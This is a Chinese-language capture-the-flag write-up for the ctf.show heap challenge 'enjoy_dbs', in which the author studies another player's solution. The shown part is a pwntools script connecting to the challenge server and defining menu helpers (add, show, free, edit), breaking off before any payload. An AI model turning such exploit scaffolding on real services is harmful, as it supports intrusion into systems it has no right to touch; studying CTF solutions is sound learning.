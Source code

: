 # enjoy_dbs

[题目地址](https://ctf.show/challenges#enjoy_dbs-3834)

什么新手可以在3题内从命令执行来到堆的世界？

新手杯pwn系列第2题就连wp都看不懂了，这题看了一下直接去看wp了。果然还是看不懂。先放wp，一行一行看。

```python
from pwn import *
#r=process('./pwn3')
r = remote('pwn.challenge.ctf.show',28108)

def ch(i):
        r.sendlineafter('[7].Check log_information',str(i))

def add(name,des):
        ch(1)
        if(len(name)<8):
                r.sendlineafter("please input the name of the onject>>",name)
        else :
                r.sendafter("please input the name of the onject>>",name)

        if(len(des)<0x20):
                r.sendlineafter("then describe it",des)
        else:
                r.sendafter("then describe it",des)

def show(name):
        ch(2)

        r.sendlineafter("you want to check",name)

def free(name):
        ch(3)
        r.sendlineafter("you want to delete",name)


def edit_name(name,newname):
        ch(4)
        r.sendlineafter("you want to modify",name)

        r.sendlineafter("[3]both","1")

        if(len(newname)<8):
                r.sendlineafter("please input the name of the onject>>",newname)
        else :
                r.sendafter("please input the name of the onject>>",newname)

def edit_des(name,des):
        ch(4)
        r.sendlineafter("you want to modify",name)
        r.sendlineafter("[3]both","2")
        if(len(des)<0x20):
                r.sendlineafter("describe it>>",des)
        else:
                r.sendafter("describe it>>",des)

def edit(name,newname,des):
        ch(4)
        r.sendlineafter("you want to modify",name)
        r.sendlineafter("[3]both","3")
        if(len(newname)<8):
                r.sendlineafter("please input the name of the onject>>",newname)
```